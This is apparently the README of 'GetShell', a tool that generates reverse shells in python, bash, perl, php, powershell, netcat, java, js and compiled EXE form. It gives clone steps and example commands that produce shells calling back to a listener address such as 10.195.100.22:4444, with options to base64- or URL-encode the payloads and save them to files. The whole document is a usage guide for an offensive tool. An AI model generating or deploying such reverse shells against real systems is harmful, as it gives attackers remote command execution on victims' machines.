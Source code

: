# Getshell
* Get shell is  generator reverseshell  help you to get reverseshell
*  have opetion to convert to exe and also encode base64 and url encode 
To gain control over a compromised system, an attacker usually aims to gain interactive shell access for arbitrary command execution. With such access, they can try to elevate their privileges to obtain full control of the operating .
### Support types of reverseshell :-
------------------------------------------------
* Spport type  is :  python
* Support type is :  bash
* Support type is :  perl
* Support type is :  php
* Support type is :  ruby
* Support type is :  netcat
* Support type is :  xterm
* Support type is :  java
* Support type is :  powershell
* Support type is :  js
* Support type is :  exe
## How to use :- 
----------------------------------------
* git clone https://github.com/jac11/GetShell.git
* cd GetShell
* chmod 755 getshell.py
### Command :
---------------------------------
* to check types reverseshell suport
````
./getshell.py --info
````
* to generate python reverseshell liunx 
```
 ./getshell.py -t python -i 10.195.100.22 -p 4444
```
*  to generate python reverseshell windows
```
./getshell.py -t python -i 10.195.100.22 -p 4444 -W
```
* to generate powershell reverseshell 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 
```
*  to generate powershell reverseshell base64 or urlencode 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -UE
```
* write output in to file and -o 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84 -o
```
### EXE reversehell 
-------------------------------
* to can auto compile to exe file required " sudo apt-get install mingw-w64 "
* after insatll mingw-w64 you can compile to exe as
``` 
./getshell.py -t exe -i 10.195.100.22 -p 4444 
```
### python file :
----------------------------------
* to generate python file not oneline shell for windows or linux use 
```
./getshell.py -t python -i 10.195.100.22 -p 7777 -F 
./getshell.py -t python -i 10.195.100.22 -p 7777 -F -W 
```
### note :
* all output file will autosave at /Stote_shell/ folder 
* option -i and  -p  your listiner ip and  port 
### Connect me :
   * jac11devel@gmail.com
   * Thankypu
